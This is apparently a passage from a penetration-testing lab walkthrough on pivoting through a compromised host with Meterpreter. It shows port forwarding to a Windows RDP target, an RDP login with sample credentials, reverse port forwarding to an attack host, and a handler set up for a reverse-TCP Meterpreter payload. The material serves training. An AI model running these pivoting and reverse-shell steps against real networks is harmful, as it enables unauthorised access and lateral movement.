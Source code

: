 ### **Create Local TCP Relay**

```bash
# Forward local port 3300 to Windows target RDP
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```

### **Connect Through Port Forward**

```bash
# RDP to Windows target via localhost
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```

### **Verify Connection with Netstat**

```bash
# Check established connections
netstat -antp

tcp        0      0 127.0.0.1:54652         127.0.0.1:3300          ESTABLISHED 4075/xfreerdp
```

---

## **7. Meterpreter Reverse Port Forwarding**

### **Configure Reverse Port Forward**

```bash
# Set up reverse port forwarding from Ubuntu to attack host
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
```

**Configuration Explanation:**
- **-R**: Reverse port forwarding
- **-l 8081**: Local port on attack host
- **-p 1234**: Port on Ubuntu pivot 
- **-L 10.10.14.18**: Attack host IP

### **Setup Handler for Windows Payload**

```bash
# Background current session and configure new handler
meterpreter > bg
[*] Backgrounding session 1...

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081

msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0

msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8081
```
